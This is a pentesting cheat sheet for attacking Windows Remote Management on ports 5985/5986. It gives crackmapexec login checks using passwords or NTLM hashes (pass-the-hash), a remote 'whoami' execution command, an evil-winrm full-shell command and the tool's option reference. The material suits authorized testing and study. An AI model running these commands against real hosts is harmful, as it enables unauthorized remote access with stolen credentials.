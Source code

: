 # WinRM/5985 - 5986

**We look for**&#x20;

```bash
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
5986/tcp open  ssl/http Microsoft HTTPAPI httpd 2.0
```

**Check WinRM Authentication Options**

```bash
crackmapexec winrm <target> -u <user> -p <pass>    
```

```bash
crackmapexec winrm <target> -u <user> -H <ntlm_hash>
```

🧠 Summary

| Task           | Tool       | Command                                          |
| -------------- | ---------- | ------------------------------------------------ |
| Port scan      | nmap       | `nmap -p 5985,5986 -sV <target>`                 |
| Test login     | CME        | `cme winrm <target> -u user -H hash`             |
| Remote command | CME        | `cme winrm <target> -u user -H hash -x "whoami"` |
| Full shell     | evil-winrm | `evil-winrm -i <target> -u user -H hash`         |

## evil-winrm

| **Option**                        | **Description / Usage**                                                     |
| --------------------------------- | --------------------------------------------------------------------------- |
| `-i, --ip IP`                     | Remote host IP or hostname. FQDN required for Kerberos auth. **(Required)** |
| `-u, --user USER`                 | Username. **Required if not using Kerberos**                                |
| `-p, --password PASS`             | Password for the user                                                       |
| `-H, --hash HASH`                 | NTHash for authentication                                                   |
| `-P, --port PORT`                 | Remote host port (default: 5985)                                            |
| `-S, --ssl`                       | Enable SSL connection                                                       |
| `-a, --user-agent USERAGENT`      | Specify connection user-agent (default: Microsoft WinRM Client)             |
| `-c, --pub-key PUBLIC_KEY_PATH`   | Local path to public key certificate                                        |
| `-k, --priv-key PRIVATE_KEY_PATH` | Local path to private key certificate                                       |
| `-r, --realm DOMAIN`              | Kerberos auth. Must match `/etc/krb5.conf` format                           |
| `--spn SPN_PREFIX`                | SPN prefix for Kerberos auth (default: HTTP)                                |
| `-s, --scripts PS_SCRIPTS_PATH`   | Local path to PowerShell scripts                                            |
| `-e, --executables EXES_PATH`     | Local path to C# executables                                                |
| `-U, --url URL`                   | Remote URL endpoint (default: /wsman)                                       |
| `-V, --version`                   | Show `evil-winrm` version                                                   |
| `-n, --no-colors`                 | Disable colored output                                                      |
| `-N, --no-rpath-completion`       | Disable remote path completion                                              |
| `-l, --log`                       | Log the WinRM session                                                       |
| `-h, --help`                      | Display the help message                                                    |
